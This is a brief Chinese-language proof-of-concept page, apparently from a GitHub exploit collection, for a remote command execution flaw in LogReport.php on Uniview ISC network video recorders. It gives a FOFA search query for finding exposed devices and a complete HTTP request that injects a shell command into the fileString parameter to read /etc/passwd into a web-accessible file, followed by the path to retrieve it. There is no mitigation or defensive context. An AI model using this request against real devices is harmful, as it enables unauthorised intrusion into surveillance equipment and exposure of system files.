 ## 浙江宇视isc网络视频录像机LogReport.php存在远程命令执行漏洞

## fofa
```
body="Alarm" && body="白牌定制"
```

## poc
```
GET /Interface/LogReport/LogReport.php?action=execUpdate&fileString=x;cat+/etc/passwd%3Echeck.txt HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=f952f704362e34231e810533d889f5fb; logintime=-; devLanguage=zh-CN
Upgrade-Insecure-Requests: 1
```
![4d5533d9c9f7ebfa9059b092a2b109b5](https://github.com/wy876/POC/assets/139549762/e3743a6c-346e-4615-86a6-40318176d9f0)

然后访问路径 ：

/Interface/LogReport/check.txt
